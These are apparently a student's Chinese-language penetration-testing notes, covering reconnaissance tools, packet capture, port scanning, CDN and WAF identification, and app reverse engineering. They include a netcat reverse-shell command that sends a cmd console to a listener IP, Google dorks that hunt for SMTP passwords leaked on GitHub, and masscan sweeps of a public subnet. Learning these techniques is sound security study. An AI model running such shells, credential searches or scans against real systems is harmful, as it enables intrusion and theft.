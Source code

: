 # 文件下载，反弹shell

文件上传nc.exe

文件下载使用棱角

```
nc -e cmd 192.168.204.1 5566 将cmd控制台反弹到该ip下的5566端口
```

nc -lvvp 5566  监听5566端口

2.Web应用基础

# 抓包和封包

#模拟器抓包

设置模拟器WIFI代理为主机ip,端口为抓取的端口

CCProxy

## 小程序，桌面应用

Proxifier将应用走专属代理，对专属代理进行抓包

## 抓包协议区别工具

bp只能抓到http/s

Wireshark,科来 全局协议抓包，可以抓到tcp,udp

# 加密

## MD5加密

[md5在线解密破解,md5解密加密 (cmd5.com)](https://www.cmd5.com/)

## Discuz加密

md5(md5('字符串').'salt') 存在salt字符串

# 信息收集

## 自动化工具

### 搜索引擎

Fofa&Quake&Shodan&Zoomeye

### 自动化项目

ARL灯塔

Kunyu

Suize水泽

Finger

### 单点项目

棱角社区

## 语言&中间件&数据库&系统

## 子域名&相似域名&反查域名

## 搜索关键字

GITHUB资源搜索：

in:name test        #仓库标题搜索含有关键字 

in:descripton test     #仓库描述搜索含有关键字 

in:readme test       #Readme文件搜素含有关键字 

stars:>3000 test      #stars数量大于3000的搜索关键字 

stars:1000..3000 test    #stars数量大于1000小于3000的搜索关键字 forks:>1000 test      #forks数量大于1000的搜索关键字 

forks:1000..3000 test    #forks数量大于1000小于3000的搜索关键字 size:>=5000 test      #指定仓库大于5000k(5M)的搜索关键字 pushed:>2019-02-12 test   #发布时间大于2019-02-12的搜索关键字 created:>2019-02-12 test  #创建时间大于2019-02-12的搜索关键字 user:test          #用户名搜素 

license:apache-2.0 test   #明确仓库的 LICENSE 搜索关键字 language:java test     #在java语言的代码中搜索关键字 

user:test in:name test   #组合搜索,用户名test的标题含有test的

关键字配合谷歌搜索：

site:Github.com smtp  

site:Github.com smtp @qq.com  

site:Github.com smtp @126.com  

site:Github.com smtp @163.com  

site:Github.com smtp @sina.com.cn 

site:Github.com smtp password 

site:Github.com String password smtp

## 端口扫描

nmap

> -Pn 扫描端口
>
> -osscan-list操作系统
>
> -sV 扫描方式

masscan  

> masscan -p1-65535 ip地址
>
> masscan -p80,31,3306,8000 ip地址

### CDN（加速访问）

**作用**：不同地区使用不同的节点访问，为了加速访问

**判断**使用超级ping检查是否存在CDN。检查不同地区访问时ip是否相同

**绕过**（查询真实ip）：

- 漏洞：利用漏洞访问服务器资源，例如SSRF访问服务器资源

- 国外请求：无法访问的地点访问该服务器会直接显示ip，可以访问的地点会显示域名

- 全网扫描：funkcdn

  > 设置域名,设置域名中包含的文字
  >
  > 设置可能的网段

- 查看邮件:邮件一般不会通过cdn加速,可以让对方主动发送邮件(找回密码),查看邮件源代码即可,
- get-site-ip.com网站直接查询

### WAF

wafwoof



> 在wafw00f下使用python main.py url 识别防火墙

### 负载均衡

使用方法：lab url

### 网段资产

旁注：统一服务器下有多个WEB应用，可以分析其他应用

C段：同网段下有多个不同服务器的WEB应用，

> 查询1-255之间的所有协议  
>
> masscan -p80,3306,21 47.75.212.0/24 查询整个网段

## APP/小程序

### 内在

#### 反编译-安卓修改大师

#### 提取资源-黑暗引擎

### 外在

#### 抓包

#### 封包

#### 功能

### 加固夹壳

#### xp框架

#### frida





